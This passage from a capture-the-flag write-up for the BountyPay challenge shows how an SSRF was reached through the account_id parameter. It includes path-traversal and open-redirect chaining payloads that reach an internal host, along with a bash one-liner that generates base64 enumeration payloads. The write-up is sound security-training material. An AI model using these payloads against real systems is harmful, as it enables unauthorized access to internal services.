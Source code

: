 ## SSRF by exploiting the account_id parameter reflected in the cookie 
By sending request to load transactions, I understood that a request is issued to the remote API hosted on https://api.bountypay.h1ctf.com.  
This JSON request's response is constructed with ```url``` and ```data``` :  
```
{
    "url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/statements?month=01&year=2020",
    "data":"{\"description\":\"Transactions for 2020-01\",\"transactions\":[]}"
}
```
Ok, ```month```, ```year``` and ```account_id```  are reflected in the JSON response.  
By manipulating the ```account_id```, it's possible to modify the request path which is sending to the API.  
Now i'm able to scan internal services only accessible from the internal network in order to retrieve informations.  

##### Steps to reproduce
1 - I have to use ```#``` characters in order to comment the given parameters.
```
{   
    "account_id": "../../#",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
} 
```
Got a response with API index page! It's works!
```
{
    "url": "https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/#\/statements?month=04&year=2020",
    "data": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>BountyPay | Login<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <div class=\"text-center\" style=\"margin-top:30px\"><img src=\"\/images\/bountypay.png\" height=\"150\"><\/div>\n            <h1 class=\"text-center\">BountyPay API<\/h1>\n            <p style=\"text-align: justify\">Our BountyPay API controls all of our services in one place. We use a <a href=\"\/redirect?url=https:\/\/www.google.com\/search?q=REST+API\">REST API<\/a> with JSON output. If you are interested in using this API please contact your account manager.<\/p>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"}
```
   
2 - Access to **software** application.  
So now remember, the **api** application serves an endpoint which allows to redirect to another url, based on a whitelist.  
**An attack vector appears!**  
it's possible to chain the API open-redirect function with a SSRF in order to interact with other hosts. In this case, the only endpoint we don't have access to is ```software.bountypay.h1ctf.com``` which are only accessible from internally.  
By querying the **software** endpoint, we got access to another login interface:
```
{                                                                                                                                                                                             
  "account_id":"F8gHiqSdpK/../../../redirect?url=https://software.bountypay.h1ctf.com/#",
  "hash":"de235bffd23df6995ad4e0930baac1a2"}
} 
```
Then now, we have to enumerate this endpoint to retrieve available directories.  
In order to automate this workflow, i wrote an one-liner bash :
```
for word in $(cat quickhits.txt); do echo -n "{\"account_id\":\"../../redirect/?url=https://software.bountypay.h1ctf.com$word/#\",\"hash\":\"de235bffd23df6995ad4e0930baac1a2\"}" >> custom_quick.txt | base64 -w0 >> b64_payloads.txt ; echo ' '  >>   b64_payloads.txt ; done
```